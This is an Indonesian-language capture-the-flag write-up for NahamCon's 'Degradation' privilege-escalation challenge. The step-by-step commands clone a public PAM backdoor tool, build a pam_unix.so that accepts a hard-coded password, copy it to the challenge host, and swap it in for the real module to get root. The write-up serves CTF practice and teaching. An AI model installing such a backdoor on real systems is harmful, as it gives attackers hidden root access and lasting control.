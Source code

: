 # Degradation
#medium #privilegeescalation 

## Target
Escalate your privileges and retrieve the flag out of root's home directory.

Sebuah Linux Ubuntu versi 22.04
## Solusi
- Temukan celah.
![](attachments/Pasted%20image%2020220507193208.png)

- Karena kita memiliki ownership di folder PAM  `/usr/lib/x86_64-linux-gnu/security`, kita dapat membuat backdoor disana.
![](attachments/Pasted%20image%2020220507182904.png)

- Install kebutuhannya pada komputer lokal.
```sh
git clone https://github.com/zephrax/linux-pam-backdoor.git
cd linux-pam-backdoor

apt install -y  autoconf automake autopoint bison bzip2 docbook-xml docbook-xsl flex gettext libaudit-dev libcrack2-dev libdb-dev libfl-dev libselinux1-dev libtool libcrypt-dev libxml2-utils make pkg-config sed w3m xsltproc xz-utils gcc
```

- Jalankan `backdoor.sh`  pada komputer lokal untuk membuat file backdoor.
```sh
./backdoor.sh -v 1.1.8 -p "123456"
(...)
```

- Backdoor tersebut akan mengubah isi dari `modules/pam_unix/pam_unix_auth.c` dengan menambahkan password autentikasi dengan password `123456`.
![](attachments/Pasted%20image%2020220507182242.png)

- Copy hasil `pam_unix.so`  menuju target dengan menggunakan scp, jika tidak ada di folder utama, cari di `modules/pam_unix/.libs` .
```sh
scp -P 31192 pam_unix.so user@challenge.nahamcon.com:/home/user
ssh -p 31192 user@challenge.nahamcon.com
```

- Di dalam sesi ssh, ganti file dari `pam_unix.so` dengan backdoor.
```sh
cd /usr/lib/x86_64-linux-gnu/security
rm pam_unix.so
cp /home/user/pam_unix.so .
```

- Switch user dengan `su root` dan masukkan password `123456`
![](attachments/Pasted%20image%2020220507192002.png)

## Source
https://www.youtube.com/watch?v=zH9bCCHrlKc
https://github.com/zephrax/linux-pam-backdoor
http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html
https://tryhackme.com/room/linuxbackdoors